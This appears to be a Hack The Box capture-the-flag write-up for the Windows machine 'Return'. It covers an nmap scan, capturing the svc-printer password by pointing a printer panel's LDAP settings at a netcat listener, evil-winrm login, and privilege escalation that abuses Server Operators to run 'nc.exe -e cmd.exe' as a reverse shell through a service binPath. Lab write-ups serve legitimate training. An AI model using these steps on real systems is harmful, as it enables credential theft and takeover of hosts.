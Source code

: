![image](https://user-images.githubusercontent.com/105310322/187504257-02bb28d7-d9e9-4274-b542-951c181b0b30.png)

### Tools: Nmap, FTP, SSH, Linpeas, Python

THe nmap scan shows alot of information but most notable are HTTP and LDAP. Running DIRB did not give much and scanning for vulnerabilities did not show anything for any of the ports either.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.95.241
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 20:18 BST
Nmap scan report for 10.129.95.241
Host is up (0.0046s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-12 19:37:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/12%OT=53%CT=1%CU=34314%PV=Y%DS=2%DC=T%G=Y%TM=62F6A7A
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=
OS:U)OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS
OS:%O6=M539NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%
OS:DF=Y%T=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=
OS:Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-12T19:37:33
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 18m36s

TRACEROUTE (using port 21/tcp)
HOP RTT     ADDRESS
1   5.45 ms 10.10.14.1
2   4.93 ms 10.129.95.241

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.06 seconds
```

By navigating to the webpage and settings we can see our way in. All we gotta do is change the IP and set up a listner on our end.

![image](https://user-images.githubusercontent.com/105310322/184442861-f83d4bd0-3018-48ad-b55d-00fe9a9ce10b.png)

Once we connect we can see that it popped out what looks like a password so lets see where we can use it.

```console
└──╼ [★]$ sudo nc -lvnp 389
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:54957.
0*`%return\svc-printer�
                       1edFg43012!!
```
Using evil-winrm works to let us login as the service account and grab our first flag.

```cnosole
└──╼ [★]$ evil-winrm -i 10.129.95.241 -u svc-printer
Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
```console
*Evil-WinRM* PS C:\Users\svc-printer> cat Desktop/user.txt
572404b45e49f57e4014851b47458ab4
```
I struggled for a bit on privilege escalating here until I got some help with the group permission *Server Operators* With this membership we can get our reverse shell.

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/12/2022 2:17:55 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Set up your listener and then input the following commands on the victim. (nc.exe was not installed by default on pwnbox and sudo apt install windows-binaries was not working for me so I manually downloaded it)

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/htb-0xrogue/Downloads/nc.exe
Info: Uploading /home/htb-0xrogue/Downloads/nc.exe to C:\Users\svc-printer\Documents\nc.exe

                                                             
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.93 1234"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```
This shell is very unstable and only lasts about 60 sec but it is just enough time to read the root flag!

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
8e5dd6807afea34697b12d6c823e6482
```

GG!
